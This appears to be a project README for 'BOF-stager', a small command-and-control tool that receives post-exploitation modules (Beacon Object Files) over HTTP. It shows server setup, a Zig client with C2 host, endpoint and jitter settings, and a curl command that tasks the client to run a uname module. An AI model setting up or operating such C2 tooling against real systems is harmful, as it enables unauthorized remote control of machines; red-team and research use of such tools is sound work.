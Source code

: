 # BOF-stager

## Description

Simple C2 solution that uses BOFs as its post-exploitation modules and communicates over HTTP with the C2 server.

## Usage

Configure backend (host and port) in `utils/serve_bofs.py` file:

```
if __name__ == '__main__':
    app.run(host='127.0.0.1',port=8000,debug=True)
```

Launch C2 server:

```
mkdir -p doc_root/bofs/
cp bof-launcher/utils/serve_bofs.py doc_root/

cp bof-launcher/zig-out/bin/uname.elf.x64.o doc_root/bofs/
cd doc_root/
python serve_bofs.py
```

Configuring and runnig the client:

```
$ head examples/BOF-stager/src/main.zig 
const std = @import("std");
const assert = std.debug.assert;
const bof = @import("bof_launcher_api");

const c2_host = "127.0.0.1:8000";
const c2_endpoint = "/endpoint";
const jitter = 3;

const stdout = std.io.getStdOut();

$ zig build

$ ./zig-out/bin/bof-stager_lin_x64
```

Tasking client to run `uname.elf.x64.o` BOF:

```
curl -H 'Content-Type: application/json' -d '{ "name" : "bof:uname", "header" : "inline:z" }' http://127.0.0.1:8000/tasking
```


